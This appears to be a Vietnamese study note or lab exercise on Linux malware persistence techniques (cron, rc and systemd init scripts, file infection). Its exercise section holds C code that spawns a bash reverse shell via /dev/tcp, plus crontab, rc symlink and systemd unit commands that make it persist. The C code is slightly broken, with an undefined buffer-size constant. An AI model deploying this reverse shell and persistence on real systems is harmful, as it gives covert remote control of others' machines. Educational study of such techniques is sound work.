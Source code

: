 # Các kỹ thuật persistence

## Cron Jobs

- Cron Jobs là một ứng dụng để lập lịch chạy ứng dụng của Linux.

- Malware sử dụng Cron Jobs để lập lịch chạy, duy trì sự tồn tại trên hệ thống.

## Subsystems Initialization

- Startup Script là các script được chạy cùng với sự khởi động của hệ thống. Ví dụ: etc/rc.local/, /etc/init.d/

- Các script trong /etc/rc*.d/ được sử dụng để khởi động và dừng các dịch vụ hệ thống ở các runlevel khác nhau. Các level chạy của hệ thống:

  - Runlevel0: hệ thống tắt.
 
  - Runlevel1: chế độ đơn người dùng. Chỉ có hệ thống cơ bản và các dịch vụ tối thiểu được khởi động. Không có mạng, và thường chỉ có người dùng root có thể đăng nhập.
 
  - Runlevel2: chế độ đa người dùng mà không có mạng. Đa số các dịch vụ cơ bản và môi trường làm việc nhiều người dùng được khởi động, nhưng các dịch vụ mạng không được kích hoạt.
 
  - Runlevel3: chế độ đa người dùng có mạng. Tất cả các dịch vụ cơ bản và mạng đều được khởi động, nhưng không có môi trường desktop đồ họa.
 
  - Runlevel4: chưa được sử dụng hoặc dành cho mục đích đặc biệt. Người dùng có thể tùy chỉnh runlevel này để đáp ứng các nhu cầu cụ thể.
 
  - Runlevel5: chế độ đa người dùng với môi trường đồ họa. Tất cả các dịch vụ và mạng đều được khởi động, bao gồm cả môi trường desktop đồ họa.
 
  - Runlevel6: hệ thống khởi động lại.
 
- Init scripts là các script được chạy bởi tiến trình init(systemd) khi hệ thống khởi động. Ví dụ: /etc/systemd/system/ 

## File Infection and Replacement

- File Infection:

  - Appended Infection: Mã độc được thêm vào cuối một tệp hợp lệ.
 
  - Prepended Infection: Mã độc được thêm vào đầu một tệp hợp lệ.
 
  - Cavity Infection: Mã độc được thêm vào giữa một tệp hợp lệ.

- File Replacement: Mã độc thay thế một tệp hợp lệ thành một tệp độc hại cùng tên.

# Bài tập

## Malware:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
int main(int argc, char *argv[])
{
    const char *ip = argv[1];
    int port = atoi(argv[2]);
    char commad[MAX_BUFFER_SIZE];
    sprintf(commad, "bash -c \"/bin/bash -i >& /dev/tcp/%s/%d 0>&1\"", ip, port);
    system(commad);
    return 0;
}
```

## Bài 1:

```
crontab -e
*/5 * * * * /path/to/malware 127.0.0.1 1234
```

## Bài 2:

- rc script

  ```
  ln -s /path/to/malware /etc/rc6.d/malware
  ```

- init script

  - Tạo 1 tập tin service trong systemd (ví dụ: /etc/systemd/system/malware.service):
  
  ```
  [Unit]
  Description=Reverse Shell
  
  [Service]
  ExecStart=/path/to/malware 127.0.0.1 1234
  Restart=always
  
  [Install]
  WantedBy=default.target
  ```

  - Khởi động lại systemd:
 
  ```
  sudo systemctl enable malware.service
  sudo systemctl start malware.service
  ```
